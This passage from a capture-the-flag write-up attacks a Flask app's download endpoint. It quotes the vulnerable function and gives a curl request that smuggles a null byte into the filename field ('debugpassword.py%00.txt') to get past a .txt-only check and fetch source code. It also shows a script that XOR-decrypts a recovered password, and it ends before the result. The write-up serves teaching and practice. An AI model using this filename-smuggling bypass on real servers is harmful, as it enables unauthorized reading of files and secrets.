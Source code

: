 and that key is probably in debugpassword.py which was imported in the beginning import debugpassword # from ., cause we see that it's encrypting the password that we provide and compares that with the encrypted password in supersecrettip.txt.

but we can't get what's in debugpassword.py that easy cause as we can see in the download function :

```python
def download():
    if request.method == "GET":
        return render_template('cloud.html')
    else:
        download = request.form['download']
        if download == 'source.py':
            return send_file('./source.py', as_attachment=True)
        if download[-4:] == '.txt':
            print('download: ' + download)
            return send_from_directory(app.root_path, download, as_attachment=True)
        else:
            return send_from_directory(app.root_path + "/cloud", download, as_attachment=True)
            # return render_template('cloud.html', msg="Network error occurred")
```
we are only allowed to grab source.py or any file that ends with .txt.

after some time i got an idea to how to bypass that, which is similar to a file upload filter bypassing method, which is using the null byte, basically we will provide this as the file name : debugpassword.py%00.txt, we see that it's still ending with .txt which bypasses that check, and will be able to grab the python file :

```
curl http://10.10.5.80:7777/cloud -X POST -d 'download=debugpassword.py%00.txt'
```
```python
import pwn

def get_encrypted(passwd):
    return pwn.xor(bytes(passwd, 'utf-8'), b'[REDACTED])
```
and we successfully bypassed that filter and we got the source code of debugpassword.py.

and we see the key with which the encrypted password is XORed, since now we have the key, we can decrypt it, let's use python

```python
def xor_decrypt(ciphertext, key):
    decrypted_message = bytearray()
    for i in range(len(ciphertext)):
        decrypted_byte = ciphertext[i] ^ ord(key[i % len(key)])
        decrypted_message.append(decrypted_byte)
    return decrypted_message

encrypted = b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'
key = "[REDACTED]"
decrypted_bytes = xor_decrypt(encrypted, key)
decrypted_message = decrypted_bytes.decode('utf-8')
print("Decrypted message:", decrypted_message)
```
now let's run it and decrypt the password :
